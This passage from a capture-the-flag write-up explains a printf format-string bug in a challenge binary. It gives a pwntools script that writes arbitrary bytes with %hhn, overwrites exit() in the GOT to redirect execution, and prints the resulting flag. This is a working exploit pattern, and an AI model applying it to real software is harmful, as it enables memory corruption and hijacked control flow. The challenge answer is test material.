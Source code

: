 ```c
Report details:
0x61616161
```
With this knowledge, it is possible to use `printf()` to overwrite memory byte-by-byte, using the `%n` modifier. From the `printf` manpage:
```
n       The number of characters written so  far  is  stored  into  the  integer
        pointed  to  by  the  corresponding argument.  That argument shall be an
        int *, or variant whose size matches the (optionally)  supplied  integer
        length modifier.
```
Let's say we want to write the value `50` to address `0x61616161`. Using the input for `name`, we'll insert the address `0x61616161` as a packed string (this is "aaaa" as seen previously). To write the value itself, we would use the format string `%50c%11$hhn`. `%50c` means "print 50 characters"; this is done to set the `number of characters written so far` to 50. `%11$hhn` means "write the number of characters written so far, as a single byte, to the 11th argument of `printf()`". As obtained prior, the 11th argument will be the first 4 bytes of `name`: 0x61616161.

We'll generalise this exploit pattern to a python function<sup>4</sup>, so that it'll be easy enough to repeat.
```python
from pwn import * # please install pwntools if you have not
r = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)
def write_byte(addr: int, value: int, report_ID=[1]) -> None:
  # send format string
  r.sendlineafter('choice: \n', '1')
  r.sendlineafter('report:\n', '%{}c%11$hhn'.format(value))
  # send name
  r.sendlineafter('choice: \n', '2')
  r.sendlineafter('name: \n', pack(addr))
  # printf() the report & return to main menu
  r.sendlineafter('menu: \n', str(report_ID[0]))
  report_ID[0] += 1
  r.sendlineafter('menu: \n', '0')
```
Now that `printf()` is settled, we can move on to the exploit proper.
## Final steps
Finding the location of `exit()` in the GOT is easy<sup>5</sup>: just use pwntools:
```python
from pwn import *
context.binary = 'beta_reporting' # run this script in the same directory as be-challenge-2/
exit = context.binary.got['exit']
desired = context.binary.symbols['unknownfunction']
print(hex(exit), hex(desired))  # the result here will be 0x804b028 0x80488f7
```
The result of this script will be `0x804b028 0x80488f7`. To overwrite `exit()` with `unknownfunction()`, all you need to do is to overwrite the last two bytes<sup>6</sup>:
```python
write_byte(exit, desired&0xff)
write_byte(exit+1, (desired&0xff00)>>8)
```
After that, the challenge is finished with options 4 and 5:
```python
r.sendlineafter('choice: \n', '4')
r.sendlineafter('choice: \n', '5')
print(r.recvuntil('}'))
```
That's that<sup>7</sup>.
## Flag
`govtech-csg{c0v1d_5y5tem_d0wn!}`
